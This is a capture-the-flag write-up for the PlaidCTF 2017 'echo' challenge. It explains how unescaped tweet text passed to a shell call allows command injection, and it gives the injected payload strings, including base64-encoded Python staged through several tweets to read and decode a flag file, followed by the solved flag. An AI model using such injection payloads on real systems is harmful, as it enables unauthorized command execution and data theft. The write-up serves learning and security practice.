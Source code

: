 Since we control our tweets in `app.py` and those are passed as a file to the docker container with one tweet by line, we can control the content of the `l` variable, and as you can see, this content is passed to the `call()` function without escaping, which means that we should be able to exploit this.

After playing around a bit, we could confirm that we were able to pass commands to the `call` method by writing tweets such as:  
`"; espeak -w /share/out/1.wav " $(ls /share/)`  
which results for example into [this audio file](/resources/2017/plaidctf/echo/ls_share.wav).

Playing around with this allows us to see that the file `/share/flag` is there and is 2,470,000 char long, using `wc -c /share/flag`, which means that the flag is constituted of 38 characters, since the `process_flag` method in `app.py` is exanding each char into 65,000 chars...

So, this means that we have to remotely decode the flag before passing it to the text2speech `espeak` utility. To do so, we wrote locally the reverse of the `process_flag` function:
``` python
r = ""
with open("/share/flag","rb") as f:
    a= f.read()
    for i in range(38):
        c = 0
        for j in range(64999):
            c = c ^ ord(a[i*65000+j])
        r += chr(c^ord(a[(i+1)*65000-1]))
print r
```
Now, if we could pass it to the `espeak` utility, we could then _simply_ listen to the flag, as instructed in the description of this challenge.

In order to do so, however, we have to stick to the 140 char limit per tweet.
This was not a problem thus, and we could easily base64 encode our python payload, write it in a remote `/share/out/t` file, since we have write access in the `/share/out` folder, perform the remote base64 decoding and launch python on it using four tweets...

However the result was not usable because it did not tell us the symbols in the password and it did not differentiate upper and lower cases, we ended up with only ~30 characters out of the 38! 

So we changed our payload to have `r += str(c^ord(a[(i+1)*65000-1]))+" "` instead, so that we would get directly the char numbers instead of the char.
Mind the space after each char, in order to have the `espeak` utility interpret it as a new number (we could also have added points to have it do a pause, instead we tweaked the -s and -g parameter to have it speak more slowly, with more time between words) and we ended up with our final payload:
```
";echo ciA9ICIiCndpdGggb3BlbigiL3NoYXJlL2ZsYWciLCJyYiIpIGFzIGY6CiAgICBhPSBmLnJlYWQoKQogICAgZm9yIGkgaW4gcmFuZ2UoMzgpOgogICAg > /share/out/t"
";echo ICAgIGMgPSAwCiAgICAgICAgZm9yIGogaW4gcmFuZ2UoNjQ5OTkpOgogICAgICAgICAgICBjID0gYyBeIG9yZChhW2kqNjUwMDAral0pCiAgICAg>> /share/out/t"
";echo ICAgciArPSBzdHIoY15vcmQoYVsoaSsxKSo2NTAwMC0xXSkpKyIgIgpwcmludCByCg== >> /share/out/t;cat /share/out/t|base64 -d >/share/out/t.py;"
";espeak -s 100 -g 35 -w /share/out/4.wav "$(python /share/out/t.py)""
```
And we end up with the flag encoded as char numbers in an [audio file](/resources/2017/plaidctf/echo/numbers.wav), we could easily listen it and translate it into the real flag:
**PCTF{L15st3n_T0__reee_reeeeee_reee_la}**

Challenges resources are available in the [resources
folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2017/plaidctf/)

